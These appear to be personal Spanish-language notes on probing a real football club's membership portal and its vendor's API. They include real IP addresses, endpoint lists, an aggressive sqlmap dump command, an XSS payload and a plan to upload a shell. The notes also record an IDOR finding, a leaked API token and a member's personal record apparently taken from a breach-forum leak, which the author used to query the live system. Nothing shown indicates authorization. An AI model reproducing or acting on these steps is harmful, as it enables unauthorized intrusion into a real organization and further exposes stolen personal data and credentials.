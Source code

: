 200.89.140.116      Estadio   ( 203 ) Pensión  -  Fuera de nuestra  LAN no tomar en cuenta 

200.89.140.117      Estadio   ( 204 )  Ecsa

200.89.140.118      Estadio   (  IMAT  )

https://clubvelez.miclub.info/login.php

sqlmap -u "[https://target.com](https://target.com/)" --dbs --level=5 --risk=3 --user-agent -v3 --tamper="between,randomcase,space2comment" --batch --dump


# clubvelez

https://clubvelez.miclub.info/login.php
https://clubvelez.miclub.info/register.php
https://clubvelez.miclub.info/api_test.php
https://clubvelez.miclub.info/ajax.php
https://clubvelez.miclub.info/config.php
https://clubvelez.miclub.info/dev.php
https://clubvelez.miclub.info/crm_nuevo.php
https://clubvelez.miclub.info/info.php
https://clubvelez.miclub.info/invitados.php
https://clubvelez.miclub.info/log.php
https://clubvelez.miclub.info/privacidad.php
https://clubvelez.miclub.info/test.php
https://clubvelez.miclub.info/thumb.php

https://clubvelez.miclub.info/reset.php
Variables:  
Array ( [config_lic_validar_remoto] => 0 [config_lic_url] => http://altademanda.erp.cleversoftsolutions.com/lic/api/ [url_orig] => ? [id_empresa] => 235 [empresa] => clubvelez [dominio_cliente] => clubvelez.miclub.info [sitio_habilitado] => 1 [empresa_nombre] => Club Atlético Vélez Sarsfield [api_url] => http://200.89.140.114:10880/api2/ [token] => AtiU86fGzhAmbjrU81NT2deRtCZkKv0M [Login_Source] => web [last_url] => /crm_nuevo.php ) https://clubvelez.miclub.info/reset.php?r=1


200.89.140.114:10880/api2/
![[Pasted image 20241021154834.png]]

api_test.php hace uso de http://200.89.140.114:10880/api2/, dicho endpoint tiene una vulnerabilidad de version disclosure
![[Pasted image 20241021160127.png]] 


"""""""exploit"""""" de mimichan encontrado

![[Pasted image 20241021180214.png]]

Resumen, desde el endpoint invitados.php se puede acceder a una "Selección del tipo de invitación" 
![[Pasted image 20241021180304.png]]

Desde acá el botón de generar link no sirve, pero desde manual podemos generar invitaciones para un partido

![[Pasted image 20241021180333.png]]

Una vez rellenamos los datos nos encontramos con la siguiente vista

![[Pasted image 20241021180512.png]]
Seleccionamos la unica opción posible y nos encontramos con la siguiente vista

![[Pasted image 20241021180657.png]]

Acá probé con el primer DNI que figura en el leak de breachforums, como para no andar gastando tiempo en fuzzear a la primera

![[Pasted image 20241021180745.png]]

Click en buscar y a simple vista solo parece que se muestra información poco sensible
![[Pasted image 20241021180815.png]]

Pero si revisamos el request figura lo siguiente

![[Pasted image 20241021180823.png]]
Con mayor detalle
![[Pasted image 20241021180837.png]]
De todas formas no coincide exactamente con la muestra del leak de mimichan
1,3788840,CONDE GONZALO JULIAN,ASPM011507,604591,,"['EMILIO MITRE 902', 'HAEDO', 'BUENOS AIRES', '39714115', '9', '', '', '2011-05-21 00:00:00.000', '', '', '', '', '41169529', 'SI        ', '23', 'grabreppe@yahoo.com.ar', '2024-09-01 00:00:00.000', '0', 'NO DEFINIDO', '3', 'Lista C']"

![[Pasted image 20241021181628.png]]

Por ahora conjeturo tres opciones posibles
Que se haya explotado lo mismo pero hubo cambios por parte de CleverSoft con respecto al ataque del que surgió el breach
La segunda es que sigue la cadena desde acá hasta llegar a a la db
La tercera es que explotaron la versión de apache que tiene CleverSoft

https://clubvelez.miclub.info/api_test.php tiene un ejemplo de request response a lo que es al parecer http://200.89.140.114:10880/api2/, dicho endpoint está corriendo los siguientes servicios 

![[Pasted image 20241021212641.png]]

Apache/2.4.38 (Win64) OpenSSL/1.0.2q PHP/5.6.40

Puede que se haya explotado dicha versión de apache a traves de HTTP Request smuggling?
Intenté hacerlo pero no tuve exito, aunque no lo exploté nunca fuera de un entorno de pruebas, puede que sea vulnerable pero tengo que seguir probando

Usando dorks encontré este endpoint que faltaba

https://clubvelez.miclub.info/nuevosocio/
Tiene que haber alguna forma de sqli acá. Aunque puede que simplemente en el back sea una concatenación de if == 1...  if == 2... etc.
![[Pasted image 20241021220033.png]]
![[Pasted image 20241021220103.png]]


Se encontró un xss en nuevosocio, al poner en campo nombre <script>alert(1)</script> se visualiza el siguiente mensaje
![[Pasted image 20241021223902.png]]



![[Pasted image 20241021224519.png]]

Intentar subir una shell acá (/nuevosocio/?paso=2)

![[Pasted image 20241021225411.png]]





Array ( [config_lic_validar_remoto] => 0 [config_lic_url] => http://altademanda.erp.cleversoftsolutions.com/lic/api/ [url_orig] => ? [id_empresa] => 235 [empresa] => clubvelez [dominio_cliente] => clubvelez.miclub.info [sitio_habilitado] => 1 [empresa_nombre] => Club Atlético Vélez Sarsfield [api_url] => http://200.89.140.114:10880/api2/ [token] => AtiU86fGzhAmbjrU81NT2deRtCZkKv0M [Login_Source] => web [last_url] => /nuevosocio/index.php [nuevosocio_validar_dni] => 1 [nuevosocio_pais] => ARG [nuevosocio_provincia] => 1 [nuevosocio_localidad] => [nuevosocio_fechanac] => 22/10/2004 [nuevosocio_edad] => 20 [nuevosocio_sexo] => M [nuevosocio_nombre] => test [nuevosocio_apellido] => test [nuevosocio_tipodoc] => DNI [nuevosocio_nrodoc] => 12345671 [nuevosocio_email] => meliwi8103@chysir.com [nuevosocio_confemail] => meliwi8103@chysir.com [nuevosocio_telefono_pre] => 011 [nuevosocio_telefono] => 12345678 [nuevosocio_tiposocio] => [nuevosocio_celular_pre] => 011 [nuevosocio_celular] => 12351235 [nuevosocio_flag_alfa] => 0 [nuevosocio_paso_1] => 1 [nuevosocio_interior] => 0 [nuevosocio_x_discapacitado] => [nuevosocio_x_nrodecredencial] => [nuevosocio_x_tipodiscapacidad] => [nuevosocio_x_obsdiscapacidad] => [nuevosocio_x_fechadevencimiento] => [nuevosocio_preciototal] => 18000 [nuevosocio_cotizacion] => [nuevosocio_categoria] => AP [nuevosocio_importe] => 18000 [nuevosocio_correo] => [nuevosocio_juramento] => 1 [nuevosocio_nombre_padre] => [nuevosocio_debito] => 1 [nuevosocio_debito_tarjeta] => 4242424242424242 [nuevosocio_debito_id_tarjeta] => 07 [nuevosocio_frente_original] => Screenshot from 2024-10-22 11-43-03.png [nuevosocio_frente] => test_frente_20241022120134_6717be4e6b079.png [nuevosocio_dorso_original] => Screenshot from 2024-10-22 11-43-03.png [nuevosocio_dorso] => test_dorso_20241022120134_6717be4e6b079.png [nuevosocio_fotoperfil_original] => Screenshot from 2024-10-22 11-43-03.png [nuevosocio_fotoperfil] => test_fotoperfil_20241022120134_6717be4e6b079.png [nuevosocio_paso_2] => 1 )



https://altademanda.erp.cleversoftsolutions.com/lic/charges.php/
![[Pasted image 20241022121153.png]]

![[Pasted image 20241022121256.png]]

# LOGEADO
### /recibos

IDOR:
![[Pasted image 20241031115355.png]]
![[Pasted image 20241031115449.png]]
